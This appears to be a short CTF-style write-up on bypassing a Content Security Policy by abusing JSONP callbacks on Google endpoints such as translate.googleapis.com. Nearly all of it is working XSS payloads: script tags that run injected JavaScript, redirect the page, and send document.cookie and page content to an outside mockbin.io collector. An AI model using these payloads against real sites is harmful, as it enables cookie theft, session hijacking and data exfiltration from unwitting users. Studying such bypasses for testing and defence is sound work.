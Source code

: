 # CSP - JSONP

## Initial Attempt

```javascript
<script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert`1`"></script>
```

Problem: Cannot quite control the argument easily

Achieve XSS by using one of the googleapi payloads from JSONBee

```javascript
<script src="https://translate.googleapis.com/$discovery/rest?version=v3&callback=alert('xss');"></script>
```

## Solution

Achieve redirection by defining your own function in the callback parameter

```javascript
<script src="https://translate.googleapis.com/$discovery/rest?version=v3&callback=(function exploit(){window.top.location.href='https://google.com'})()"></script>
```

```javascript
<script src="https://translate.googleapis.com/$discovery/rest?version=v3&callback=(function exploit(){window.top.location.href='https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/?'.concat(document.cookie)})()"></script>
```

Problem: we need to exfiltrate the page not the cookie

```javascript
<script src="https://translate.googleapis.com/$discovery/rest?version=v3&callback=(function exploit(){var p=document.getElementsByTagName('p')[0];window.top.location.href='https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/?'.concat(p)})()"></script>
```

Problem: script works but returns a `400 INVALID_ARGUMENT` error when appending `.innerText` to get the content of page

## References

- [JSONBee - ready to use JSONP endpoints](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)
- [Hacktricks - third party jsonp endpoints](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#third-party-endpoints--jsonp)
